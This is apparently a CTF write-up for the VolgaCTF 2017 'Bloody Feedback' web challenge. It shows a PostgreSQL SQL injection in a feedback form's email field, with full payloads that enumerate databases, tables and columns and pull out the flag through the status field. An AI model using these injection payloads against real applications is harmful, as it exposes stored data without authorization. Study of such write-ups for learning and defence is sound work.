 # Bloody Feedback - web 100

Author: [@mjdubell](https://twitter.com/mjdubell)

```
Bloody Feedback

Send your feedback at bloody-feedback.quals.2017.volgactf.ru

DO. NOT. USE. SQLMAP
Otherwise your IP will be banned
```

The challenge basically has two functions, 1) Send feedback and 2) view the status of the sent feedback. There is also page that cotains "Top Messages" which is the feedback people send in. When you send feedback you get a token back which you can use to see if the feedback has been processed or not.

I first tried to steal cookies via the feedback form but it turned out that everything was filtered. My second try involved finding a SQL injection vulnerability at the feedback status page:

```
http://bloody-feedback.quals.2017.volgactf.ru/check/?code=<token here>
```

![not_processed](images/not_processed.png)

I got nothing, the only thing I could deduce was that every feedback sent, had a default status of "not processed". I assumed this would change after a while but it never did.

My next attempt was to intercept the POST submission from the feedback form with burp to see if any parameters were vulnerable. By entering `lol'` as email, the following error was triggered:

```
<div class="container">
<div class="page-header">
<h2>Error</h2>
</div>
<div class="alert alert-danger">
	<p>ERROR: DBD::Pg::db do failed: ERROR:  syntax error at or near "not"
	LINE 1: ...HRkIBBUOq9M40ZqvsB1TcwWVWt','smacker','m','lol'','not proces...
	                                                 ^ at Worker.pm line 29.</p>
</div>
</div>
```

I realised that when you send your feedback, the program automatically inserts "not processed" along with the feedback. My working theory at ths point was to substitute the "not processed" field with an SQL query of my choosing. After a few tries I constructed the following query:

```
name=smacker&message=m&email=lol',(select version()))--
```

However I got an error message indicating that the field allows a maximum of 30 chars, so I simply added substring():

```
name=smacker&message=m&email=lol',(select substr(version(),0,30)))--
```

![not_processed](images/postgres.png)

Now when I checked the status page of my feedback with the token I got, instead of seeing "not processed", I saw `PostgreSQL 9.5.6 on x86_64-pc`. Now I knew how to display my SQL queries on the site, by overwriting the "not processed" field.

So I tried a few other things:
```
user = fcgi_user         =>  name=smacker&message=m&email=lol',(select substr(user,0,30)))--
database = feedback_db   =>  name=smacker&message=m&email=lol',(select substr(current_database(),0,30)))--
```

Since the field can't hold multiple rows/values, I had to use LIMIT X OFFSET Y in order to step through each element in the set that the database returned. The following code snippets shows how I enumerated the database to find the flag.

**Databases:**
```
postgres => name=smacker&message=m&email=lol',(select substr(datname ,0,30) FROM pg_database LIMIT 1 OFFSET 1))--
template1 => name=smacker&message=m&email=lol',(select substr(datname ,0,30) FROM pg_database LIMIT 1 OFFSET 2))--
feedback_db => name=smacker&message=m&email=lol',(select substr(datname ,0,30) FROM pg_database LIMIT 1 OFFSET 3))--
```

**TABLES:**
```
s3cret_tabl3 => name=smacker&message=m&email=lol',(select table_name FROM information_schema.tables WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 1))--
```

**COLUMNS:**
```
name =>  name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 1))--
email => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 2))--
message => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 3))--
status => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 4))--
id => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 5))--
s3cr3tc0lumn => name=smacker&message=m&email=lol',(select column_name FROM information_schema.columns WHERE table_schema%3Dcurrent_schema() LIMIT 1 OFFSET 6))--
```

**Time to get the rows from `s3cr3tc0lumn`**
```
VolgaCTF => name=smacker&message=m&email=lol',(select s3cr3tc0lumn FROM s3cret_tabl3 LIMIT 1 OFFSET 1))--
Volga => name=smacker&message=m&email=lol',(select s3cr3tc0lumn FROM s3cret_tabl3 LIMIT 1 OFFSET 2))--
1 => name=smacker&message=m&email=lol',(select s3cr3tc0lumn FROM s3cret_tabl3 LIMIT 1 OFFSET 3))--
VolgaCTF{eiU7UJhyeu@ud3*} => name=smacker&message=m&email=lol',(select s3cr3tc0lumn FROM s3cret_tabl3 LIMIT 1 OFFSET 4))--
```

![not_processed](images/flag.png)

**Flag: VolgaCTF{eiU7UJhyeu@ud3\*}**